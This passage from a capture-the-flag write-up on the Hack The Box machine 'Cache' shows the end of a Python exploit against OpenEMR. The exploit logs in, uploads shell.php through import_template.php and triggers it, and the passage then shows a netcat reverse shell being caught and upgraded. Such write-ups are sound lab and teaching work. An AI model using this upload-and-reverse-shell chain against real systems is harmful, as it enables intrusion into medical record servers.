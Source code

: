 ```python
	if (!$daemon) {
		print "$string\n";
	}
}

?> """}
print (auth)
url = "http://hms.htb/interface/main/main_screen.php?auth=login&site=default"
data= {
    'new_login_session_management' : '1',
    'authProvider' : 'Default',
    'authUser' : 'openemr_admin', # change this to the the appropriate username
    'clearPass' : 'xxxxxx',       # change this to the appropriate password 
    'languageChoice' : '1',
    }
    
response = s.post(url, data=data,).text
time.sleep(2)
print (upload)
time.sleep(2)
resp = s.post("http://hms.htb/portal/import_template.php?site=default", data = payload)
time.sleep(2)
print (netcat)
rev_shell = s.get("http://hms.htb/portal/shell.php")
print (rev_shell.text)
```

Now that I had valid credentials to the portal, I could use exploit.py from earlier POC - modified a bit to work in this situation. After taking a bit to upload the file, a shell was returned to me

## Initial Foothold

ran the exploit

```text
zweilos@kali:~/htb/cache$ vim exploit.py 
zweilos@kali:~/htb/cache$ python3 ./exploit.py 
[+] Authentication with credentials provided please be patient
[+] Uploading a payload it will take a minute
[+] You should be getting a shell
```

then in my other terminal

```text
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ nc -lvnp 12346
listening on [any] 12346 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.188] 34384
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:10:25 up  2:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cache:/$ ^Z
[1]+  Stopped                 nc -lvnp 12346
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ stty raw -echo
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ nc -lvnp 12346

```